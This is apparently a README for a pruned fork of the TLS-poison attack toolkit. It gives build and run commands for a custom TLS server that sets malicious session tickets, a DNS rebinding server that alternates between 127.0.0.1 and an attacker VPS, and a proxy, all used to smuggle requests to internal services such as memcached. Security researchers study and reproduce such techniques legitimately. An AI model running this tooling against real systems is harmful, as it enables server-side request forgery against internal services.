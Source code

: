 # TLS Poison
Modified from https://github.com/jmdx/TLS-poison. Have pruned the original repo. Use two vps to reproduce the attack tech.



###	TLS Tool

`cargo build`


```
cd TLS-poison/client-hello-poisoning/custom-tls
target/debug/custom-tls -p 11211 --verbose --certs /root/tls/fullchain.pem --key /root/tls/privkey.pem http
```


```
target/debug/custom-tls -p 11210 --verbose --tickets --certs /path/to/fullchain.pem --key /path/to/privkey.pem --protover 1.2 http
```

###  DNS Tool
```
cd /root/TLS-poison/client-hello-poisoning/custom-dns
python3 alternate-dns.py dns.smuggling.xyz,127.0.0.1 -b 0.0.0.0 -t 139.159.160.211 -d 8.8.8.8
```

###  Proxy Tool
```
python2 proxy.py
```

###	New DNS Tool

```
python3 alternate-dns.py example.com --ip x.x.x.x --mode static_zero
Usage:
     --ip 					 Your vps ip or an ip which you want the domain point to.
     --static_zero   In this mode, the tool will return two A records in a DNS query. One of the records is your vps ip, the other one is 0.0.0.0.
     --rebinding		 In this mode, the tool will only return an A records in a DNS query. But it will randomly return 127.0.0.1 or the ip you set. Similar like the original alternate-dns tool.
```

